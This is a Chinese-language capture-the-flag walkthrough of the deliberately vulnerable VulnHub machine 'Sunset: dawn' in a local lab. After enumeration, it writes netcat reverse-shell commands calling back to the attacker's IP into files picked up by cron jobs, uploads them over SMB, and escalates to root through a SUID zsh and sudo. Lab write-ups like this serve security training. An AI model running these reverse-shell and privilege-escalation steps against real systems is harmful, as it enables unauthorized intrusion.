# Sunset: dawn

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：dawn（IP：192.168.56.105）

下载：https://www.vulnhub.com/entry/sunset-dawn,341/

## Let's go

```
nmap -A 192.168.56.105
```



> **浏览网页并没有发现什么信息，我们进行枚举**

```
dirb http://192.168.56.105/
```





> **只有 management.log 允许查看，我们将他保存下来**

```
cat ./下载/management.log
```



> **我们得到一些有价值的信息**
>
> 用户：dawn，ganimedes
>
> dawn下有一个ITDEPT目录
>
> 定时计划：product-control，web-control，phobos

```
enum4linux -a 192.168.56.105
```




> **和我们上面得到的信息联系起来了，所有出口一定在这里**

```
smbclient //192.168.56.105/ITDEPT		#使用SMB访问ITDEPT目录
```



> **并没有发现 product-control，web-control 两个文件，我们可以尝试上传这两个文件等待定时计划执行**

```
echo 'nc -nv 192.168.56.102 4444 -e /bin/bash' > product-control
echo 'nc -nv 192.168.56.102 4445 -e /bin/bash' > web-control
put product-control
put web-control
```



```
#监听等待
nc -lp 4444
nc -lp 4445
python -c 'import pty;pty.spawn("/bin/bash")'
```





```
find / -perm -u=s -type f 2>/dev/null
zsh
cat /root/flag.txt
```




```
sudo -l
sudo sudo -s
cat /root/flag.txt
```

